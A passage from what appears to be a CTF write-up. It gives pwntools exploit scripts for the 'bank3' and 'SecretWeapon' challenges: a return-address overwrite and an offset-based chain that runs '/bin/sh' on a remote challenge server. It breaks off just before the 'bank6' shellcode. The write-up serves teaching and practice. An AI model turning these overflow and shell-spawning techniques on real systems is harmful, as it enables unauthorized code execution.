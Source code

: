 ### bank3

This challenge requires us to overwritten the return address of the function, so the program flow will be redirected to the function which will spawn a shell. Here's the script:

```python
from pwn import *

#io = process('./bank3')
io = remote('61.28.237.24', 30204)

payload = b'A'*80+p32(0x08048506)

print(io.recvuntil(': '))
io.sendline(payload)
print(io.recvall())
```

### SecretWeapon

Another offset calculation challenge, the program first gave us the address of `townsquare` function, in the binary we already had `/bin/sh` string and `run_cmd` function, we just need to calculate the offset between `townsquare` and those, last step we just need to craft a exploit chain so the `/bin/sh` will be executed by `run_cmd`, which should be easy:

```python
from pwn import *

elf = ELF('./weapon')
#io = process('./weapon')
io = remote('61.28.237.24', 30201)

print(io.recvline())
base = int(io.recv().split()[-1], 16)
cmd = base -84
bash = base+3337

payload = b'A'*4+b'B'*4+b'C'*4+b'D'*4+b'E'*4+b'F'*4+b'J'*4+p32(cmd)+b'A'*4+p32(bash)
pause()
io.sendline(payload)
io.interactive()
```

After had finished 5 of those, my python3 gone wrong and got broken, so i couldn't use pwntools, also i was sleepy, i decided to take a rest and solve the rest challenge later, but when i woke up, a member from my team had already solved bank4 and bank5, so i continued solving bank6, and went back to sleep, again.

### bank6

Bank6 is a shellcode + stack spraying challenge

First i wrote a basic shellcode as usual, like this:
